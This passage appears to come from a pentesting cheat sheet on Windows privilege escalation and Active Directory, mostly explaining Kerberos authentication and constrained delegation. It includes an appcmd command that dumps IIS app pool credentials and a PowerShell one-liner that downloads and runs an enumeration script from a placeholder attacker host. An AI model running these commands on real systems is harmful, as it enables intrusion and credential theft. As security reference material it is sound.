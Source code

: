 ```c
C:\Windows\System32\inetsrv>appcmd.exe list apppool /@:*
```

### JAWS

> https://github.com/411Hall/JAWS

```c
PS C:\> IEX(New-Object Net.webclient).downloadString('http://<LHOST>:<LPORT>/jaws-enum.ps1')
```

### Kerberos

#### Authentication

> https://csforza.gitbook.io/pentesting-articles-and-notes/windows/active-directory/kerberos-authentication

If a user wants to obtain access to resources within a Active Directory network, he must obtain a ticket through a `6-step` process.

1. User sends a request to the `Kerberos Distribution Center (KDC)` with his password hash and a timestamp. (AS-REQ)
2. If the `password hash` of the user matches that for the user on the `KDC`, the user receives a `Ticket Granting Ticket` encrypted and signed by the `krbtgt` account. (AS-REP)
3. The `TGT`, including the `krbtgt hash`, is sent to the `KDC` or `DC` in order to recieve a `Kerberos Service Ticket (TGS)`. (TGS-REQ)
4. User then receives a `TGS` encrypted with the `hash` of the service account he wishes to access. (TGS-REP)
5. User then connects to the server and attempts to use the service he sent the `initial request` for with the `TGS` included. (AP-REQ)
6. User gains access and mutual authentication is given between the server and client if necessary (AP-REP).

**Constrained Delegation**

> https://csforza.gitbook.io/pentesting-articles-and-notes/windows/active-directory/privilege-escalation/constrained-delegation

> https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation

* `Constrained Delegation` limits the services to which a service can access on behalf of a user.
* This service account must still be `trusted` to `delegate`.
* The user does `not authenticate` with `Kerberos` to the `constrained service`.
* Instead of authenticating to the `KDC` first, like in a regular Kerberos ticket request, the user authenticates `directly to the service`.
* Once the user authenticates to the service, the service then requests a `forwardable TGT` to the `KDC` without the user's password included.
* The `KDC` checks the `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` attribute on the service and whether or not the user's account is blocked.
* If everything checks out a ticket is returned.
* Ticket gets `passed back` to the `KDC` and a `TGS ticket` is requested to the `second service`.
* `KDC` checks the `msDS-AllowedToDelegateTo` field on the second service and if it is listed, then an `access ticket` is granted.
* `TGS` gets sent to the next service and the user now can authenticate to it.
